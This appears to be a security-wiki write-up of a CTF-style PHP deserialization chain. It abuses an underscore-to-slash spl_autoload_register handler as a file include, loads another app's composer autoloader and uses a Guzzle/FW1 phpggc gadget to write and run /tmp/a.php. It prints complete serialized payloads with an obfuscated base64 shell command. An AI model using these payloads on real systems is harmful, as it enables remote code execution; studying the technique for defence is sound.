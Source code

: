 ```yaml
---
layout: page
title: PHP - Deserialization + Autoload Classes
description:
category: php
toc:
  sidebar: left
---
```


First, you should check what are [**Autoloading Classes**](https://www.php.net/manual/en/language.oop5.autoload.php).

## PHP deserialization + spl_autoload_register + LFI/Gadget

We are in a situation where we found a **PHP deserialization in a webapp** with **no** library vulnerable to gadgets inside **`phpggc`**. However, in the same container there was a **different composer webapp with vulnerable libraries**. Therefore, the goal was to **load the composer loader of the other webapp** and abuse it to **load a gadget that will exploit that library with a gadget** from the webapp vulnerable to deserialization.

Steps:

- You have found a **deserialization** and there **isn’t any gadget** in the current app code
- You can abuse a **`spl_autoload_register`** function like the following to **load any local file with `.php` extension**
  - For that you use a deserialization where the name of the class is going to be inside **`$name`**. You **cannot use "/" or "."** in a class name in a serialized object, but the **code** is **replacing** the **underscores** ("\_") **for slashes** ("/"). So a class name such as `tmp_passwd` will be transformed into `/tmp/passwd.php` and the code will try to load it.\
    A **gadget example** will be: **`O:10:"tmp_passwd":0:{}`**

```php
spl_autoload_register(function ($name) {

   if (preg_match('/Controller$/', $name)) {
       $name = "controllers/${name}";
   } elseif (preg_match('/Model$/', $name)) {
       $name = "models/${name}";
   } elseif (preg_match('/_/', $name)) {
       $name = preg_replace('/_/', '/', $name);
   }

   $filename = "/${name}.php";

   if (file_exists($filename)) {
       require $filename;
   }
   elseif (file_exists(__DIR__ . $filename)) {
       require __DIR__ . $filename;
   }
});
```

> [!TIP]
> If you have a **file upload** and can upload a file with **`.php` extension** you could **abuse this functionality directly** and get already RCE.

In my case, I didn’t have anything like that, but there was inside the **same container** another composer web page with a **library vulnerable to a `phpggc` gadget**.

- To load this other library, first you need to **load the composer loader of that other web app** (because the one of the current application won’t access the libraries of the other one.) **Knowing the path of the application**, you can achieve this very easily with: **`O:28:"www_frontend_vendor_autoload":0:{}`** (In my case, the composer loader was in `/www/frontend/vendor/autoload.php`)
- Now, you can **load** the others **app composer loader**, so it’s time to **`generate the phpgcc`** **payload** to use. In my case, I used **`Guzzle/FW1`**, which allowed me to **write any file inside the filesystem**.
  - NOTE: The **generated gadget was not working**, in order for it to work I **modified** that payload **`chain.php`** of phpggc and set **all the attribute**s of the classes **from private to public**. If not, after deserializing the string, the attributes of the created objects didn’t have any values.
- Now we have the way to **load the others app composer loader** and have a **phpggc payload that works**, but we need to **do this in the SAME REQUEST for the loader to be loaded when the gadget is used**. For that, I sent a serialized array with both objects like:
  - You can see **first the loader being loaded and then the payload**

```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```

- Now, we can **create and write a file**, however, the user **couldn’t write in any folder inside the web server**. So, as you can see in the payload, PHP calling **`system`** with some **base64** is created in **`/tmp/a.php`**. Then, we can **reuse the first type of payload** that we used to as LFI to load the composer loader of the other webapp t**o load the generated `/tmp/a.php`** file. Just add it to the deserialization gadget:

```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```

**Summary of the payload**

- **Load the composer autoload** of a different webapp in the same container
- **Load a phpggc gadget** to abuse a library from the other webapp (the initial webapp vulnerable to deserialization didn’t have any gadget on its libraries)
- The gadget will **create a file with a PHP payload** on it in /tmp/a.php with malicious commands (the webapp user cannot write in any folder of any webapp)
- The final part of our payload will use **load the generated php file** that will execute commands

I needed to **call this deserialization twice**. In my testing, the first time the `/tmp/a.php` file was created but not loaded, and the second time it was correctly loaded.
